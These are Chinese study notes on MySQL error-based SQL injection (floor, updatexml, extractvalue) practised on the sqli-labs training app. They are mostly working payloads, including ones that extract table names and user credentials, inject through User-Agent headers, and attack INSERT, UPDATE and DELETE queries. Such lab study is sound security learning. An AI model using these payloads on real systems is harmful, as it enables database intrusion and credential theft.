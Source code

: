```yaml
---
title: 06-mysql类型报错注入
categories:
- 渗透测试
tags:
- 渗透测试
abbrlink: '145e207'  
date: 2020-02-08 15:55:38
---
```

  

# 1. SQL各种参数类型下的注入测试

- 数字型-sqlilabs less2   `x.php?id=1`
- 字符型-sqlilabs less1   `x.php?id=xiaodi`
- 搜索型-自写测试           `x.php?q=1`      （select * from table where name like '%xi%'）

**搞懂：**

1. 搞清楚为何要区分上面的类型
   数字的不带引号，字符型带符号，注意考虑干扰
   搜索型：模糊搜索
   计算机中搜索的通配符为`*`
   数据库中搜索的通配符为`%`






# 2. SQL各种报错方式下的注入测试

>此类报错注入旨在解决无回显下的注入测试
>注：MySQL 5.1.5版本后才包含`ExtractValue()`和`UpdateXML()`这2个函数

**参考资料：**
https://www.wandouip.com/t5i158282/
http://blog.sina.com.cn/s/blog_1450cc4c60102vraq.html


###### `floor`报错

sqlilabs less5

>报错注入有长度限制，所以concat有时候不行， 需要limit 或者还需要sub
>**payload:**

```
-- burp中注意空格问题（空格可以用+加号， 或者%20, 或者 /**/ 代替）
?id=1'+and+(select+1+from (select+count(*),concat(version(),floor(rand(0)*2))x+from+information_schema.tables+group+by+x)a)--+
?id=-1' and(select 1 from (select count(*),concat((select table_name from information_schema.tables limit 3,1),floor(rand(0)*2))x from information_schema.tables group by x)a)-- + 

?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 2,1),0x7e,floor(rand(0)*2)))-- + 

http://192.168.0.121:8080/Less-5/?id=1%27 and (select count(*) from information_schema.tables group by concat(version(), floor(rand(0)*2))) -- + 

-- 可以用burp批量跑 limit 0,1 的0这里。payload设置数字范围
```

###### `updatexml`报错

sqlilabs less5
updatexml()函数是MYSQL对XML文档数据进行查询和修改的XPATH函数
**payload:**

```
?id=1' and 1=(updatexml(1,concat(0x3a,(select version())),1))--+
?id=1' and 1=(updatexml(1,concat(0x3a,(select table_name from information_schema.tables limit 0,1)),1))--+

http://192.168.0.121:8080/Less-5/?id=1%27 and updatexml(1, concat(0x7e, (select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e), 1) -- + 

http://192.168.0.121:8080/Less-5/?id=1%27 and updatexml(1, concat(0x7e, (select concat_ws(0x3a, username,password) from security.users limit 0,1),0x7e), 1) -- + 
```

###### `extractvalue`报错

sqlilabs less5
extractvalue()函数也是MYSQL对XML文档数据进行查询和修改的XPATH函数
**payload:**

```
id=1' and extractvalue(1,concat(0x7e,user()))--+
?id=1' and extractvalue(1, concat(0x5c,(select table_name from information_schema.tables limit 1)))--+

```





# 3.SQL各种查询方式下的注入测试

- select
- insert（注册，用户添加，发布文章）   Less-18

```
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
-- sql语句  ??? 对吗没验证，截图了
insert into users(username, passwd)  values('x' or updatexml(1,concat(0x3a,(  version() ),1)  or  '  ',  'psd');

--payload
User-Agent: 中                    x' or updatexml(1,concat(0x7e,(version())),1) or ' 

User-Agent: x' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables limit 0,1)),1) or ' 

自己练习增,删,改： updatexml和extra两个都实验
```

- delete（后台删除文章, 用户...）
- update （改密码，数据同步）
  通过以上查询方式与网站一个用的关系，可以由注入点产生的地方或者应用猜测到对方的SQL查询方式


**环境搭建**

> 自己搭建

利用上述报错注入语句进行查询模式注入测试

```
create database newdb;

use newdb;

create table users (
    id int(3) not null auto_increment,
    username varchar(20) not null,
    passowrd varchar(20) not null,
    primary key(id)
);

insert into users values(1,'janes','Eyre');


```

> 注意使用场景，在什么情况下用到  


**插件：**
`mysql监控-Seay代码审计系统`        查看执行了哪些语句



>报错注入有长度限制:32位, 如果长度超出会显示不全.
>解决方案: substr((),1,1) 递进截取依次 (select substr(concat(username,0x3a,password), 1,10) from users limit 0,1)



###### 三种查询方式对应的报错注入测试

**floor报错演示Payload**

```sql
insert into users(id,username,passowrd) values(1,'Olivia' or (select count(*),concat( floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x;
) or '','Nervo');

update users set passowrd='Nicky' or (select 1 from(select count(*),concat( floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x)a) or '' where id=2;

delete from users where id=1 or (select 1 from(select count(*),concat( floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x)a)

```

**updatexml报错演示Payload**

```
insert into users(id,username,passowrd) values(2,'Olivia' or updatexml(1,concat(0x7e,(version())),0) or '','Nervo');

update user set passowrd='Nicky' or  updatexml(1,concat(0x7e,(version())),0) or '' where id=2 and username='Nervo';

delete from users where id=2 or updatexml(1,concat(0x7e,(version())),0) or '';

```

**extractvalue报错演示Payload**

```sql
insert into users(id,username,password) values(2,'Olivia' or extractvalue(1,concat(0x7e,database())) or '','Nervo');

update users set passowrd='Nicky' or extractvalue(1,concat(0x7e,database())) or '';

delete from users where id=1 or extractvalue(1,concat(0x7e,database())) or '';

```

>参考：https://www.cnblogs.com/babers/articles/7252401.html

**Notes:**

>delete，insert，update语句存在sql注入，扫描工具常规扫描不能获取到（没有权限，前提要登录状态下/登录后按钮的点击事件工具里面不能自动点击）， 所以：**只能手工注入**

**比如场景：**   注册/会员中心/删除文章/更新编辑文章       -->抓包：数据包地址+id参数 ： 手工测试